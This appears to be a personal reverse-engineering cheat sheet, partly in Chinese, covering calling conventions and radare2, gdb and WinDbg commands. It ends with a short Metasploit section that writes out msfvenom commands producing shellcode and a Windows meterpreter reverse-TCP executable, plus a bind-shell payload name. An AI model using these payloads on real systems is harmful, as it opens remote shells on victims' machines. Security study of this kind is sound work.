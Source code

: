 

# 调用规约

- Linux x64：
  * TLDR: rdi, rsi, rdx, rcx, r8, r9
  * User-level applications use as integer registers for passing the sequence %rdi, %rsi, %rdx, %rcx, %r8 and %r9. The kernel interface uses %rdi, %rsi, %rdx, %r10, %r8 and %r9. [link](https://stackoverflow.com/questions/2535989/what-are-the-calling-conventions-for-unix-linux-system-calls-and-user-space-f)

- Windows x64:
  * rcx, rdx, r8, r9, then stack
  * https://docs.microsoft.com/zh-cn/cpp/build/x64-calling-convention?view=vs-2019

```c++
func1(int a, int b, int c, int d, int e, int f);
// a in RCX, b in RDX, c in R8, d in R9, f then e pushed on stack
```
- Windows x86:
  - esp+4, esp+8

# r2 (radare2)

- `aaaa` 分析
- `afl` 列出函数
  * `afl~main` 列出包含 main 的函数
- `s main` 切换(seek)当前地址为 main
- `pdf` 打印当前的汇编
- 任意命令加 `?` 提供 help 信息，比如 `pd?`


# gdb

- r 运行，run
- c 继续，continue
- info reg 查看寄存器
- br *main 在main函数下断点
- br src/ss.c:123 在文件 ss.c:123 处下断点
- del 1 删除断点1
- diable 1 禁用断点1
- enable 1 启用断点1
- info br 查看断点
- x/4gx 0xdeadbeef 检查内存
  * x/4wx 控制每行的列数
  * x/2wx $rax 
- x/10i $pc 打印当前汇编
  * x/10i $rip rip/eip/pc都可以
  * x/-10i $rip 可以倒着来
- n(next) 源码级别step over
- s(step) 源码级别step in
- si(stepi) 汇编级别step in
- ni(nexti) 汇编级别step over
- starti 开始时断下（找不到入口/entry时）


* [gdb和lldb的对比](https://lldb.llvm.org/use/map.html)
* [gdb online docs](https://sourceware.org/gdb/onlinedocs/gdb/)


# windbg
- `sxe ld:xx.dll` dll加载时断下
- `* blabla` 注释
- `u $exentry` 查看入口/entry
- `x ntdll!D*` 查看符号
- `p` step over
- `t` (trace) step into

## windbg basic
- `g` 运行
- `r` 查看所有寄存器
  - `r rax` 查看 rax
- `u` 查看当前eip的反汇编
- 直接按回车执行上一条命令
- 分号做分割，可以在一行执行多条命令
- `ctrl + break` 强制停止命令

windbg中有一些伪寄存器，最常见的就是memory界面默认显示的 `@$scopeip`，表示当前 eip

有如下这些常用伪寄存器，完整列表见[官网](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/pseudo-register-syntax)

| pseudo register | desc |
| --------------- | ---- |
| `$exentry`|   入口点|
| `$proc`   |   进程结构(EPROCESS)指针 |
| `$peb`   |   进程PEB(process environment block)结构 |
| `$teb`   |   进程TEB(thread environment block)结构 |


### 执行

`p` 命令：

```
[~Thread] p[r] [= StartAddress] [Count] ["Command"] 
```

- 加 `r` 禁止寄存器显示
- 默认从 eip 开始执行，加 `= StartAddress` 从该地址开始执行
- 加 `Count` 表示执行的行数或者指令数（？如何区分），默认是 1
  - 切换汇编模式：`l-t`
  - 切换源码模式：`l+t` （更多：[l+,l-指令文档](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/l---l---set-source-options-)）
- 加 `"Command"` 表示指令数执行完后需要执行的命令


t命令和p命令类似，区别是：t是step in，p是step over

- `pa|ta [r] [=StartAddress] StopAddress` 执行到指定地址
- `pc|tc [r] [=StratAddress] [Count]` 执行到下一个函数调用
- `tb [r] [=StartAddress] [Count]` 执行到下一个分支

### 断点

```
bp[ID] [Options] [Address [Passes]] ["Command String"]
bu[ID] [Options] [Address [Passes]] ["Command String"]
bm[Options]  SymbolPattern [Passes] ["Command String"]

; 硬件断点
ba [ID] Access Size [Option] [Address[Passes]] ["Command String"]
```

- `bp` 软件断点
- `ba` 硬件断点
  - `ba r1 0x401000` 读0x401000 >= 1bytes
- `bu` 未加载模块断点
- `bm` 符号特征断点 (Set Symbol Breakpoint)
  - `bm msvcr80d!print*`
- `bl` 列举断点
- `bc` 清除断点
- `bd/be` 禁用/启用断点

TODO: 条件断点

### 栈回溯


## more to learn
- https://medium.com/@yardenshafir2/windbg-the-fun-way-part-1-2e4978791f9b new way
- https://blogs.keysight.com/blogs/tech/nwvs.entry.html/2020/07/27/debugging_malwarewi-hk5u.html log
- https://github.com/hugsy/defcon_27_windbg_workshop/blob/master/windbg_cheatsheet.md must memorize
- https://bbs.pediy.com/thread-250670.htm


# msf

shellcode

```sh
msfvenom -p windows/x64/exec CMD=calc.exe   -a x64 --platform win -f raw -o calc64.raw

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.0.11 LPORT=1111 -f exe > shell.exe

# 常用payload
payload/windows/x64/meterpreter_bind_tcp

```

